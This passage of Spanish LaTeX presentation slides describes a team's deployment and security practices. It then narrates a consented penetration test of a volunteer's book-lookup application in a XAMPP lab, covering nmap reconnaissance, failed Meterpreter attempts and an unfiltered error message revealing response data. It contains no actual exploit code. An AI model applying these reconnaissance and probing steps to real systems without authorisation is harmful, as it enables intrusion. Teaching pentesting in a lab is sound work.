        
\includegraphics[width=.9\textwidth]{fragments/diagram.png}
    \end{figure}

    \note[item]{Cáda módulo que se ve, funciona en un ambiente completamente separado.}
    \note[item]{Adicionalmente como práctica de desarrollo se delegaron todas las tareas críticas de seguridad al techlead. Esto fue por dos motivos principalmente. El primero es que nadie en el equipo tenía experiencia en seguridad, salvo dos personas. Esta situación se repetia para practicas de desarrollo, formando parte de equipos grandes, etc.}
    \note[item]{Entonces la idea era atajar todos los desarrollos críticos o que involucren aspectos de seguridad al techlead, delegar el control de calidad y unión de los repositorios al devops, un equipo de diseño enfocado en esa tarea.}
\end{frame}


\begin{frame}{Despliegue}
    \centering

    \begin{figure}
        \centering
        
\includegraphics[width=.9\textwidth]{fragments/diagram.png}
    \end{figure}

    \note[item]{Finalmente, el uso de herramientas ajenas al framework estaba prohibido, de modo que toda la seguridad pasa por la robustez del mismo. Basta con mantener todo actualizado.}
    \note[item]{Adicionalmente el stack que hay que penetrar para llegar a la aplicación es AWS WAF, ELB, EBS, contenedor ec2. }
\end{frame}

\begin{frame}
    \titlepage
\end{frame}


\begin{frame}{Solicitud de cliente }
    \centering

        
    \begin{figure}
        \centering
        
\includegraphics[width=.9\textwidth]{fragments/pentest/app1.png}
    \end{figure}

    \note[item]{Como no pude hacer el pentesting a mi aplicación, le pedí a un voluntario (Juan) que me prestara la suya. Para esto levantamos un ambiente quasiproductivo utilizando xampp y windows}
\end{frame}

\begin{frame}{Explorando... }
    \centering
    
    \begin{figure}
        \centering
        
\includegraphics[width=.9\textwidth]{fragments/pentest/app3.png}
    \end{figure}

    \note[item]{Larga historia corta, comenzamos con una exploración sobre las únicas dos llamadas que era posible realizar en la aplicación, las cuales solo eran para leer datos de libros.}
\end{frame}

\begin{frame}{Solo dos llamadas... }
    \centering
    
    \begin{figure}
        \centering
        
\includegraphics[width=.7\textwidth]{fragments/cheems.png}
    \end{figure}

    \note[item]{La aplicación de escritorio hacía mas llamadas, pero la idea era poder atravezar la seguridad como un usuario externo.}
\end{frame}

\begin{frame}{Nmap... }
    \centering
    
    \begin{figure}
        \centering
        
\includegraphics[width=.6\textwidth]{fragments/pentest/nmap.png}
    \end{figure}

    \note[item]{Nmap no nos daba muchas esperanzas la verdad, porque solo estaban esos dos servicios y despues de harto meterpreter, no pasó ninguno.}
\end{frame}
\begin{frame}{AHA... }
    \centering
    
    \begin{figure}
        \centering
        
\includegraphics[width=.9\textwidth]{fragments/pentest/error1.png}
    \end{figure}

    \note[item]{Entonces, probando cosas hubo un error, el cual nos dice, ok, esta llamada tiene un arreglo como respuesta y está pasando directa, es mas, el error no se filtra...}
\end{frame}

\begin{frame}{AHA... }
    \centering
    
    \begin{figure}
        \centering
